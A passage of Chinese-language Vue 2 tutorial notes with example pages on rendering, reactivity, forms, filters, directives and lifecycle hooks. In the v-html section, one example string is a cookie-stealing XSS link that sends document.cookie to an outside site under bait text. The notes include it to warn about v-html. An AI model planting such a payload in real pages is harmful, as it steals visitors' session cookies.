  + 数组写法适用于：要绑定多个样式，个数确定，名字也确定，但不确定用不用。

2. style 样式

  + `:style="{fontSize: xxx}"` 其中 xxx 是动态值。

  + `:style="[a,b]"` 其中 a、b 是样式对象。

## 条件渲染

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>条件渲染</title>
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>
<div id="root">
    <h2>当前的n值是:{{n}}</h2>
    <button @click="n++">点我 n+1</button>
    <br/>

    <!-- 使用 v-show 做条件渲染 -->
    <h2 v-show="false">欢迎来到{{name}}</h2>
    <h2 v-show="1 === 1">欢迎来到{{name}}</h2>
    <hr/>

    <!-- 使用 v-if 做条件渲染 -->
    <h2 v-if="false">欢迎来到{{name}}</h2>
    <h2 v-if="1 === 1">欢迎来到{{name}}</h2>
    <hr/>

    <!-- v-else 和 v-else-if -->
    <div v-if="n === 1">Angular</div>
    <div v-else-if="n === 2">React</div>
    <div v-else-if="n === 3">Vue</div>
    <div v-else>哈哈</div>
    <hr/>

    <!-- v-if 与 template 的配合使用 -->
    <template v-if="n === 1">
        <h2>你好</h2>
        <h2>halo</h2>
        <h2>北京</h2>
    </template>

</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false

    const vm = new Vue({
        el: '#root',
        data: {
            name: 'halo',
            n: 0
        }
    })
</script>
</html>
```

条件渲染：

1. `v-if`，写法：1、`v-if="表达式"`，`v-else-if="表达式"`，`v-else="表达式"`
   + 适用于：切换频率较低的场景。
   + 特点：不展示的 DOM 元素直接被移除。
   + 注意：`v-if` 可以和 `:v-else-if`、`v-else` 一起使用，但要求结构不能被“打断”。
2. v-show。写法：`v-show="表达式"`
   + 适用于：切换频率较高的场景。
   + 特点：不展示的 DOM 元素未被移除，仅仅是使用样式隐藏掉
3. 备注：使用 `v-if` 的时，元素可能无法获取到，而使用 `v-show` 一定可以获取到。

## 列表渲染

### `v-for` 指令

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>基本列表</title>
    <script type="text/javascript" src="js/vue.js"></script>
</head>
<body>

<div id="root">
    <!-- 遍历数组 -->
    <h2>人员列表（遍历数组）</h2>
    <ul>
        <li v-for="p in persons" :key="p.id">
            {{p.name}}-{{p.age}}
        </li>
    </ul>

    <hr/>

    <ul>
        <li v-for="(p,index) of persons" :key="index">
            {{p.name}}-{{p.age}}
        </li>
    </ul>

    <!-- 遍历对象 -->
    <h2>汽车信息（遍历对象）</h2>
    <ul>
        <li v-for="(value,key) of car" :key="key">
            {{key}}-{{value}}
        </li>
    </ul>

    <!-- 遍历字符串 -->
    <h2>测试遍历字符串（用得少）</h2>
    <ul>
        <li v-for="(char,index) of str" :key="index">
            {{char}}-{{index}}
        </li>
    </ul>

    <!-- 遍历指定次数 -->
    <h2>测试遍历指定次数（用得少）</h2>
    <ul>
        <li v-for="(number,index) of 5" :key="index">
            {{index}}-{{number}}
        </li>
    </ul>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false

    new Vue({
        el: '#root',
        data: {
            persons: [
                {id: '001', name: '张三', age: 18},
                {id: '002', name: '李四', age: 19},
                {id: '003', name: '王五', age: 20}
            ],
            car: {
                name: '奥迪A8',
                price: '70万',
                color: '黑色'
            },
            str: 'hello'
        }
    })
</script>
</body>
</html>
```

1. 用于展示列表数据
2. 语法：`v-for="(item, index) in xxx" :key="yyy"`
3. 可遍历：数组、对象、字符串（用的很少）、指定次数（用的很少）

### key 的原理

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>key的原理</title>
    <script type="text/javascript" src="js/vue.js"></script>
</head>
<body>
<div id="root">
    <!-- 遍历数组 -->
    <h2>人员列表（遍历数组）</h2>
    <button @click.once="add">添加一个老刘</button>
    <ul>
        <li v-for="(p,index) of persons" :key="index">
            {{p.name}}-{{p.age}}
            <label>
                <input type="text">
            </label>
        </li>
    </ul>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false

    new Vue({
        el: '#root',
        data: {
            persons: [
                {id: '001', name: '张三', age: 18},
                {id: '002', name: '李四', age: 19},
                {id: '003', name: '王五', age: 20}
            ]
        },
        methods: {
            add() {
                const p = {id: '004', name: '老刘', age: 40}
                this.persons.unshift(p)
            }
        },
    })
</script>
</body>
</html>
```

React、Vue 中的 key 有什么作用？（key 的内部原理）

虚拟 DOM 中 key 的作用：key 是虚拟 DOM 对象的标识，当数据发生变化时，Vue 会根据新数据生成新的虚拟 DOM，随后 Vue 进行新虚拟 DOM 与旧虚拟 DOM 的差异比较，比较规则如下：

1. 旧虚拟 DOM 中找到了与新虚拟 DOM 相同的 key：
   + 若虚拟 DOM 中内容没变，直接使用之前的真实 DOM；
   + 若虚拟 DOM 中内容变了，则生成新的真实 DOM，随后替换掉页面中之前的真实 DOM。
2. 旧虚拟 DOM 中未找到与新虚拟 DOM 相同的 key：创建新的真实 DOM，随后渲染到到页面。

用 index 作为 key 可能会引发的问题：

1. 若对数据进行逆序添加、逆序删除等破坏顺序操作：会产生没有必要的真实 DOM 更新，界面效果没问题，但效率低。
2. 如果结构中还包含输入类的 DOM：会产生错误 DOM 更新，界面有问题。

开发中如何选择 key？

1. 最好使用每条数据的唯一标识作为 key，比如 id、手机号、身份证号、学号等唯一值。
2. 如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表用于展示，使用 index 作为 key 是没有问题的。

### 列表过滤

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>列表过滤</title>
    <script type="text/javascript" src="js/vue.js"></script>
</head>
<body>
<div id="root">
    <h2>人员列表</h2>
    <label>
        <input type="text" placeholder="请输入名字" v-model="keyWord">
    </label>
    <ul>
        <li v-for="(p,index) of filPersons" :key="index">
            {{p.name}}-{{p.age}}-{{p.sex}}
        </li>
    </ul>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false

    //用 watch 实现
    /* new Vue({
        el:'#root',
        data:{
            keyWord:'',
            persons:[
                {id:'001',name:'马冬梅',age:19,sex:'女'},
                {id:'002',name:'周冬雨',age:20,sex:'女'},
                {id:'003',name:'周杰伦',age:21,sex:'男'},
                {id:'004',name:'温兆伦',age:22,sex:'男'}
            ],
            filPersons:[]
        },
        watch:{
            keyWord:{
                immediate:true,
                handler(val){
                    this.filPersons = this.persons.filter((p)=>{
                        return p.name.indexOf(val) !== -1
                    })
                }
            }
        }
    }) */

    //用computed实现
    new Vue({
        el: '#root',
        data: {
            keyWord: '',
            persons: [
                {id: '001', name: '马冬梅', age: 19, sex: '女'},
                {id: '002', name: '周冬雨', age: 20, sex: '女'},
                {id: '003', name: '周杰伦', age: 21, sex: '男'},
                {id: '004', name: '温兆伦', age: 22, sex: '男'}
            ]
        },
        computed: {
            filPersons() {
                return this.persons.filter((p) => {
                    return p.name.indexOf(this.keyWord) !== -1
                })
            }
        }
    })
</script>
</body>
</html>
```

### 列表排序

 ```html
 <!DOCTYPE html>
 <html lang="en">
 <head>
     <meta charset="UTF-8"/>
     <title>列表排序</title>
     <script type="text/javascript" src="./js/vue.js"></script>
 </head>
 <body>
 <div id="root">
     <h2>人员列表</h2>
     <label>
         <input type="text" placeholder="请输入名字" v-model="keyWord">
     </label>
     <button @click="sortType = 2">年龄升序</button>
     <button @click="sortType = 1">年龄降序</button>
     <button @click="sortType = 0">原顺序</button>
     <ul>
         <li v-for="(p,index) of filPersons" :key="p.id">
             {{p.name}}-{{p.age}}-{{p.sex}}
             <label>
                 <input type="text">
             </label>
         </li>
     </ul>
 </div>
 
 <script type="text/javascript">
     Vue.config.productionTip = false
 
     new Vue({
         el: '#root',
         data: {
             keyWord: '',
             sortType: 0, // 0 原顺序 1 降序 2 升序
             persons: [
                 {id: '001', name: '马冬梅', age: 30, sex: '女'},
                 {id: '002', name: '周冬雨', age: 31, sex: '女'},
                 {id: '003', name: '周杰伦', age: 18, sex: '男'},
                 {id: '004', name: '温兆伦', age: 19, sex: '男'}
             ]
         },
         computed: {
             filPersons() {
                 const arr = this.persons.filter((p) => {
                     return p.name.indexOf(this.keyWord) !== -1
                 })
                 // 判断一下是否需要排序
                 if (this.sortType) {
                     arr.sort((p1, p2) => {
                         return this.sortType === 1 ? p2.age - p1.age : p1.age - p2.age
                     })
                 }
                 return arr
             }
         }
     })
 
 </script>
 </body>
 </html>
 ```

### 更新时的一个问题

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>更新时的一个问题</title>
    <script type="text/javascript" src="js/vue.js"></script>
</head>
<body>
<div id="root">
    <h2>人员列表</h2>
    <button @click="updateMei">更新马冬梅的信息</button>
    <ul>
        <li v-for="(p,index) of persons" :key="p.id">
            {{p.name}}-{{p.age}}-{{p.sex}}
        </li>
    </ul>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false

    const vm = new Vue({
        el: '#root',
        data: {
            persons: [
                {id: '001', name: '马冬梅', age: 30, sex: '女'},
                {id: '002', name: '周冬雨', age: 31, sex: '女'},
                {id: '003', name: '周杰伦', age: 18, sex: '男'},
                {id: '004', name: '温兆伦', age: 19, sex: '男'}
            ]
        },
        methods: {
            updateMei() {
                // this.persons[0].name = '马老师' // 奏效
                // this.persons[0].age = 50 // 奏效
                // this.persons[0].sex = '男' // 奏效
                // this.persons[0] = {id: '001', name: '马老师', age: 50, sex: '男'} // 不奏效
                this.persons.splice(0, 1, {id: '001', name: '马老师', age: 50, sex: '男'})
            }
        }
    })

</script>
</body>
</html>
```

### 监测数据改变的原理（对象）

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>Vue监测数据改变的原理</title>
    <script type="text/javascript" src="js/vue.js"></script>
</head>
<body>
<div id="root">
    <h2>学校名称：{{name}}</h2>
    <h2>学校地址：{{address}}</h2>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false

    const vm = new Vue({
        el: '#root',
        data: {
            name: 'Halo',
            address: '北京',
            student: {
                name: 'tom',
                age: {
                    rAge: 40,
                    sAge: 29,
                },
                friends: [
                    {name: 'jerry', age: 35}
                ]
            }
        }
    })
</script>
</html>
```

模拟数据监测

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>Document</title>
</head>
<body>
<script type="text/javascript">

    let data = {
        name: '尚硅谷',
        address: '北京',
    }

    // 创建一个监视的实例对象，用于监视 data 中属性的变化
    const obs = new Observer(data)
    console.log(obs)

    // 准备一个 vm 实例对象
    let vm = {}
    vm._data = data = obs

    function Observer(obj) {
        // 汇总对象中所有的属性形成一个数组
        const keys = Object.keys(obj)
        // 遍历
        keys.forEach((k) => {
            Object.defineProperty(this, k, {
                get() {
                    return obj[k]
                },
                set(val) {
                    console.log(`${k}被改了，我要去解析模板，生成虚拟DOM.....我要开始忙了`)
                    obj[k] = val
                }
            })
        })
    }
</script>
</body>
</html>
```

### `Vue.set()` 的使用

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>Vue监测数据改变的原理</title>
    <script type="text/javascript" src="js/vue.js"></script>
</head>
<body>
<div id="root">
    <h1>学校信息</h1>
    <h2>学校名称：{{school.name}}</h2>
    <h2>学校地址：{{school.address}}</h2>
    <hr/>

    <h1>学生信息</h1>
    <button @click="addSex">添加一个性别属性，默认值是男</button>
    <h2>姓名：{{student.name}}</h2>
    <h2 v-if="student.sex">性别：{{student.sex}}</h2>
    <h2>年龄：真实{{student.age.rAge}}，对外{{student.age.sAge}}</h2>
    <h2>朋友们</h2>
    <ul>
        <li v-for="(f,index) in student.friends" :key="index">
            {{f.name}}--{{f.age}}
        </li>
    </ul>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false

    const vm = new Vue({
        el: '#root',
        data: {
            school: {
                name: '尚硅谷',
                address: '北京',
            },
            student: {
                name: 'tom',
                age: {
                    rAge: 40,
                    sAge: 29,
                },
                friends: [
                    {name: 'jerry', age: 35},
                    {name: 'tony', age: 36}
                ]
            }
        },
        methods: {
            addSex() {
                // Vue.set(this.student,'sex','男')
                this.$set(this.student, 'sex', '男')
            }
        }
    })
</script>
</html>
```

### 监测数据改变的原理（数组）

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>Vue监测数据改变的原理_数组</title>
    <script type="text/javascript" src="js/vue.js"></script>
</head>
<body>
<div id="root">
    <h1>学校信息</h1>
    <h2>学校名称：{{school.name}}</h2>
    <h2>学校地址：{{school.address}}</h2>
    <h2>校长是：{{school.leader}}</h2>
    <hr/>
    <h1>学生信息</h1>
    <button @click="addSex">添加一个性别属性，默认值是男</button>
    <h2>姓名：{{student.name}}</h2>
    <h2 v-if="student.sex">性别：{{student.sex}}</h2>
    <h2>年龄：真实{{student.age.rAge}}，对外{{student.age.sAge}}</h2>
    <h2>爱好</h2>
    <ul>
        <li v-for="(h,index) in student.hobby" :key="index">
            {{h}}
        </li>
    </ul>
    <h2>朋友们</h2>
    <ul>
        <li v-for="(f,index) in student.friends" :key="index">
            {{f.name}}--{{f.age}}
        </li>
    </ul>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false

    const vm = new Vue({
        el: '#root',
        data: {
            school: {
                name: '尚硅谷',
                address: '北京',
            },
            student: {
                name: 'tom',
                age: {
                    rAge: 40,
                    sAge: 29,
                },
                hobby: ['抽烟', '喝酒', '烫头'],
                friends: [
                    {name: 'jerry', age: 35},
                    {name: 'tony', age: 36}
                ]
            }
        },
        methods: {
            addSex() {
                // Vue.set(this.student,'sex','男')
                this.$set(this.student, 'sex', '男')
            }
        }
    })
</script>
</html>
```

### 列表渲染小结

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>总结数据监视</title>
    <style>
        button {
            margin-top: 10px;
        }
    </style>
    <script type="text/javascript" src="js/vue.js"></script>
</head>
<body>

<div id="root">
    <h1>学生信息</h1>
    <button @click="student.age++">年龄+1岁</button>
    <br/>
    <button @click="addSex">添加性别属性，默认值：男</button>
    <br/>
    <button @click="student.sex = '未知' ">修改性别</button>
    <br/>
    <button @click="addFriend">在列表首位添加一个朋友</button>
    <br/>
    <button @click="updateFirstFriendName">修改第一个朋友的名字为：张三</button>
    <br/>
    <button @click="addHobby">添加一个爱好</button>
    <br/>
    <button @click="updateHobby">修改第一个爱好为：开车</button>
    <br/>
    <button @click="removeSmoke">过滤掉爱好中的抽烟</button>
    <br/>
    <h3>姓名：{{student.name}}</h3>
    <h3>年龄：{{student.age}}</h3>
    <h3 v-if="student.sex">性别：{{student.sex}}</h3>
    <h3>爱好：</h3>
    <ul>
        <li v-for="(h,index) in student.hobby" :key="index">
            {{h}}
        </li>
    </ul>
    <h3>朋友们：</h3>
    <ul>
        <li v-for="(f,index) in student.friends" :key="index">
            {{f.name}}--{{f.age}}
        </li>
    </ul>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false

    const vm = new Vue({
        el: '#root',
        data: {
            student: {
                name: 'tom',
                age: 18,
                hobby: ['抽烟', '喝酒', '烫头'],
                friends: [
                    {name: 'jerry', age: 35},
                    {name: 'tony', age: 36}
                ]
            }
        },
        methods: {
            addSex() {
                // Vue.set(this.student,'sex','男')
                this.$set(this.student, 'sex', '男')
            },
            addFriend() {
                this.student.friends.unshift({name: 'jack', age: 70})
            },
            updateFirstFriendName() {
                this.student.friends[0].name = '张三'
            },
            addHobby() {
                this.student.hobby.push('学习')
            },
            updateHobby() {
                // this.student.hobby.splice(0,1,'开车')
                // Vue.set(this.student.hobby,0,'开车')
                this.$set(this.student.hobby, 0, '开车')
            },
            removeSmoke() {
                this.student.hobby = this.student.hobby.filter((h) => {
                    return h !== '抽烟'
                })
            }
        }
    })
</script>
</html>
```

Vue 监视数据的原理：

1. Vue 会监视 data 中所有层次的数据。
2. 如何监测对象中的数据？通过 setter 实现监视，且要在 new Vue 时就传入要监测的数据。
   + 对象中后追加的属性，Vue 默认不做响应式处理
   + 如需给后添加的属性做响应式，请使用如下 API：`Vue.set(target，propertyName/index，value)` 或 `vm.$set(target，propertyName/index，value)`
3. 如何监测数组中的数据？通过包裹数组更新元素的方法实现，本质就是做了两件事：
   + 调用原生对应的方法对数组进行更新。
   + 重新解析模板，进而更新页面。
4. 在 Vue 修改数组中的某个元素一定要用如下方法：
   + 使用这些 API：`push()`、`pop()`、`shift()`、`unshift()`、`splice()`、`sort()`、`reverse()`
   + `Vue.set()` 或 `vm.$set()`
   + 特别注意：`Vue.set()` 和 `vm.$set()` 不能给 vm 或 vm 的根数据对象（`vm._data`）添加属性

## 收集表单

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>收集表单数据</title>
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>
<div id="root">
    <form @submit.prevent="demo">
        账号：<input type="text" v-model.trim="userInfo.account"> <br/><br/>
        密码：<input type="password" v-model="userInfo.password"> <br/><br/>
        年龄：<input type="number" v-model.number="userInfo.age"> <br/><br/>
        性别：
        男<input type="radio" name="sex" v-model="userInfo.sex" value="male">
        女<input type="radio" name="sex" v-model="userInfo.sex" value="female">
        <br/><br/>
        爱好：
        学习<input type="checkbox" v-model="userInfo.hobby" value="study">
        打游戏<input type="checkbox" v-model="userInfo.hobby" value="game">
        吃饭<input type="checkbox" v-model="userInfo.hobby" value="eat">
        <br/><br/>
        所属校区
        <select v-model="userInfo.city">
            <option value="">请选择校区</option>
            <option value="beijing">北京</option>
            <option value="shanghai">上海</option>
            <option value="shenzhen">深圳</option>
            <option value="wuhan">武汉</option>
        </select>
        <br/><br/>
        其他信息：
        <textarea v-model.lazy="userInfo.other"></textarea>
        <br/><br/>
        <input type="checkbox" v-model="userInfo.agree">阅读并接受<a href="https://whl123456.top.com">《用户协议》</a>
        <button>提交</button>
    </form>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false

    new Vue({
        el: '#root',
        data: {
            userInfo: {
                account: '',
                password: '',
                age: 18,
                sex: 'female',
                hobby: [],
                city: 'beijing',
                other: '',
                agree: ''
            }
        },
        methods: {
            demo() {
                console.log(JSON.stringify(this.userInfo))
            }
        }
    })
</script>
</html>
```

收集表单数据：

若：`<input type="text"/>`，则 v-model 收集的是 value 值，用户输入的就是 value 值。

若：`<input type="radio"/>`，则 v-model 收集的是 value 值，且要给标签配置 value 值。

若：`<input type="checkbox"/>`

1. 没有配置 input 的 value 属性，那么收集的就是 checked（勾选 or 未勾选，是布尔值）
2. 配置 input 的 value 属性：
   + v-model 的初始值是非数组，那么收集的就是 checked（勾选 or 未勾选，是布尔值）
   + v-model 的初始值是数组，那么收集的的就是 value 组成的数组

备注：v-model 的三个修饰符：

+ lazy：失去焦点再收集数据
+ number：输入字符串转为有效的数字
+ trim：输入首尾空格过滤

## 过滤器

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>过滤器</title>
    <script type="text/javascript" src="./js/vue.js"></script>
    <script type="text/javascript" src="./js/dayjs.min.js"></script>
</head>
<body>

<div id="root">
    <h2>显示格式化后的时间</h2>
    <!-- 计算属性实现 -->
    <h3>现在是：{{fmtTime}} (计算属性实现)</h3>
    <!-- methods 实现 -->
    <h3>现在是：{{getFmtTime()}} (methods 实现)</h3>
    <!-- 过滤器实现 -->
    <h3>现在是：{{time | timeFormatter}} (过滤器实现)</h3>
    <!-- 过滤器实现（传参） -->
    <h3>现在是：{{time | timeFormatter('YYYY_MM_DD') | mySlice}}</h3>
    <h3 :x="msg | mySlice">尚硅谷</h3>
</div>

<div id="root2">
    <h2>{{msg | mySlice}}</h2>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false
    // 全局过滤器
    Vue.filter('mySlice', function (value) {
        return value.slice(0, 4)
    })

    new Vue({
        el: '#root',
        data: {
            time: 1621561377603, // 时间戳
            msg: '你好，尚硅谷'
        },
        computed: {
            fmtTime() {
                return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss')
            }
        },
        methods: {
            getFmtTime() {
                return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss')
            }
        },
        // 局部过滤器
        filters: {
            timeFormatter(value, str = 'YYYY年MM月DD日 HH:mm:ss') {
                console.log('@',value)
                return dayjs(value).format(str)
            }
        }
    })

    new Vue({
        el: '#root2',
        data: {
            msg: 'hello,atguigu!'
        }
    })
</script>
</html>
```

过滤器

定义：对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑的处理）。

语法：

1. 注册过滤器：`Vue.filter(name,callback)` 或 `new Vue{filters:{}}`
2. 使用过滤器：`{{ xxx | 过滤器名}}`  或  `v-bind:属性 = "xxx | 过滤器名"`

备注：

1. 过滤器也可以接收额外参数、多个过滤器也可以串联
2. 并没有改变原本的数据，是产生新的对应的数据

## 内置指令

+ `v-bind`：单向绑定解析表达式，可简写为 `:`
+ `v-model`：双向数据绑定
+ `v-for `：遍历数组/对象/字符串
+ `v-on`：绑定事件监听，可简写为 `@`
+ `v-if`：条件渲染（动态控制节点是否存存在）
+ `v-else`：条件渲染（动态控制节点是否存存在）
+ `v-show`：条件渲染（动态控制节点是否展示）

### `v-text`

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>v-text指令</title>
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>
<div id="root">
    <div>你好，{{name}}</div>
    <div v-text="name"></div>
    <div v-text="str"></div>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false

    new Vue({
        el: '#root',
        data: {
            name: '尚硅谷',
            str: '<h3>你好啊！</h3>'
        }
    })
</script>
</html>
```

作用：向其所在的节点中渲染文本内容。

与插值语法的区别：`v-text` 会替换掉整个节点中的内容，`{{xx}}` 则不会。

### `v-html`

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>v-html指令</title>
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>
<div id="root">
    <div>你好，{{name}}</div>
    <div v-html="str"></div>
    <div v-html="str2"></div>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false

    new Vue({
        el: '#root',
        data: {
            name: '尚硅谷',
            str: '<h3>你好啊！</h3>',
            str2: '<a href=javascript:location.href="https://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
        }
    })
</script>
</html>
```

1. 作用：向指定节点中渲染包含 html 结构的内容。
2. 与插值语法的区别：
   + `v-html` 会替换掉节点中所有的内容，`{{xx}}` 则不会。
   + `v-html` 可以识别 html 结构。
3. 严重注意：`v-html` 有安全性问题！！！！
   + 在网站上动态渲染任意 HTML 是非常危险的，容易导致 XSS 攻击。
   + 一定要在可信的内容上使用 `v-html`，永不要用在用户提交的内容上！

### `v-cloak`

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>v-cloak指令</title>
    <style>
        [v-cloak] {
            display: none;
        }
    </style>
</head>
<body>
<div id="root">
    <h2 v-cloak>{{name}}</h2>
</div>
<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
</body>

<script type="text/javascript">
    console.log(1)
    Vue.config.productionTip = false

    new Vue({
        el: '#root',
        data: {
            name: '尚硅谷'
        }
    })
</script>
</html>
```

`v-cloak` 指令（没有值）：

1. 本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删掉 `v-cloak` 属性。
2. 使用 CSS 配合 `v-cloak` 可以解决网速慢时页面展示出 `{{xxx}}` 的问题。

### `v-once`

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>v-once指令</title>
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>

<div id="root">
    <h2 v-once>初始化的 n 值是:{{n}}</h2>
    <h2>当前的 n 值是:{{n}}</h2>
    <button @click="n++">点我 n+1</button>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false

    new Vue({
        el: '#root',
        data: {
            n: 1
        }
    })
</script>
</html>
```

`v-once` 指令：

1. `v-once` 所在节点在初次动态渲染后，就视为静态内容了。
2. 以后数据的改变不会引起 `v-once` 所在结构的更新，可以用于优化性能。

### `v-pre`

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>v-pre指令</title>
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>
<div id="root">
    <h2 v-pre>Vue 其实很简单</h2>
    <h2>当前的 n 值是:{{n}}</h2>
    <button @click="n++">点我 n+1</button>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false
    new Vue({
        el: '#root',
        data: {
            n: 1
        }
    })
</script>
</html>
```

`v-pre` 指令：

1. 跳过其所在节点的编译过程。
2. 可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。

## 自定义指令

需求 1：定义一个 `v-big` 指令，和 `v-text` 功能类似，但会把绑定的数值放大 10 倍。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>自定义指令</title>
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>

<div id="root">
    <h2>{{name}}</h2>
    <h2>当前的 n 值是：<span v-text="n"></span></h2>
    <h2>放大 10 倍后的 n 值是：<span v-big="n"></span></h2>
    <button @click="n++">点我 n+1</button>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false
    
    new Vue({
        el: '#root',
        data: {
            name: '尚硅谷',
            n: 1
        },
        directives: {
            // big 函数何时会被调用？
            // 1.指令与元素成功绑定时（初次）
            // 2.指令所在的模板被重新解析时
            big(element, binding) {
                console.log('big', this) // 注意此处的 this 是 window
                element.innerText = binding.value * 10
            },
        }
    })

</script>
</html>
```

需求 2：定义一个 `v-fbind` 指令，和 `v-bind` 功能类似，但可以让其所绑定的 input 元素默认获取焦点。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>自定义指令</title>
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>

<div id="root">
    <input type="text" v-fbind:value="n">
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false
    
    // 定义全局指令
    /* Vue.directive('fbind',{
        // 指令与元素成功绑定时（一上来）
        bind(element,binding){
            element.value = binding.value
        },
        // 指令所在元素被插入页面时
        inserted(element,binding){
            element.focus()
        },
        // 指令所在的模板被重新解析时
        update(element,binding){
            element.value = binding.value
        }
    }) */

    new Vue({
        el: '#root',
        data: {
            name: '尚硅谷',
            n: 1
        },
        directives: {
            fbind: {
                // 指令与元素成功绑定时（一上来）
                bind(element, binding) {
                    element.value = binding.value
                },
                // 指令所在元素被插入页面时
                inserted(element, binding) {
                    element.focus()
                },
                // 指令所在的模板被重新解析时
                update(element, binding) {
                    element.value = binding.value
                }
            }
        }
    }) 

</script>
</html>
```

配置对象中常用的 3 个回调：

1. bind：指令与元素成功绑定时调用。
2. inserted：指令所在元素被插入页面时调用。
3. update：指令所在模板结构被重新解析时调用。

备注：

1. 指令定义时不加 `v-`，但使用时要加 `v-`；
2. 指令名如果是多个单词，要使用 kebab-case 命名方式，不要用 camelCase 命名。

## 生命周期

### 引出生命周期

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>引出生命周期</title>
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>
<div id="root">
    <h2 v-if="a">你好啊</h2>
    <h2 :style="{opacity}">欢迎学习Vue</h2>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el: '#root',
        data: {
            a: false,
            opacity: 1
        },
        methods: {},
        // Vue 完成模板的解析并把初始的真实 DOM 元素放入页面后（挂载完毕）调用 mounted
        mounted() {
            console.log('mounted', this)
            setInterval(() => {
                this.opacity -= 0.01
                if (this.opacity <= 0) this.opacity = 1
            }, 16)
        },
    })

    // 通过外部的定时器实现（不推荐）
    /* setInterval(() => {
        vm.opacity -= 0.01
        if(vm.opacity <= 0) vm.opacity = 1
    },16) */
</script>
</html>
```

生命周期：

1. 又名：生命周期回调函数、生命周期函数、生命周期钩子。
2. 是什么：Vue 在关键时刻帮我们调用的一些特殊名称的函数。
3. 生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的。
4. 生命周期函数中的 this 指向是 vm 或组件实例对象。

### 分析生命周期


```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>分析生命周期</title>
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>
<div id="root" :x="n">
    <h2 v-text="n"></h2>
    <h2>当前的 n 值是：{{n}}</h2>
    <button @click="add">点我 n+1</button>
    <button @click="bye">点我销毁 vm</button>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false

    new Vue({
        el: '#root',
        // template:`
        // 	<div>
        // 		<h2>当前的n值是：{{n}}</h2>
        // 		<button @click="add">点我n+1</button>
        // 	</div>
        // `,
        data: {
            n: 1
        },
        methods: {
            add() {
                console.log('add')
                this.n++
            },
            bye() {
                console.log('bye')
                this.$destroy()
            }
        },
        watch: {
            n() {
                console.log('n变了')
            }
        },
        beforeCreate() {
            console.log('beforeCreate')
            // console.log(this)
            // debugger
        },
        created() {
            console.log('created')
        },
        beforeMount() {
            console.log('beforeMount')
        },
        mounted() {
            console.log('mounted')
        },
        beforeUpdate() {
            console.log('beforeUpdate')
        },
        updated() {
            console.log('updated')
        },
        beforeDestroy() {
            console.log('beforeDestroy')
        },
        destroyed() {
            console.log('destroyed')
        },
    })
</script>
</html>
```

常用的生命周期钩子：

1. mounted: 发送 ajax 请求、启动定时器、绑定自定义事件、订阅消息等【初始化操作】。
2. beforeDestroy: 清除定时器、解绑自定义事件、取消订阅消息等【收尾工作】。

